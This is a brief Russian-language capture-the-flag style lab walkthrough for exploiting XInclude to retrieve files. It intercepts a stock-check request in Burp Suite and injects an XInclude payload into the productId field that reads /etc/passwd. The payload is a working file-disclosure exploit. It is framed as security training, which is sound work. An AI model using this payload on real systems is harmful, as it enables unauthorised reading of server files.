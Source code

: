 ## Lab: Exploiting XInclude to retrieve files
1) Переходим на сайт задания и выбираем любой продукт.
2) Нажимаем "Check stock" и перехватываем запрос через Burp Suite.
3) В значение productId вставляем
```php
  <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task3/image.png)

Готово!
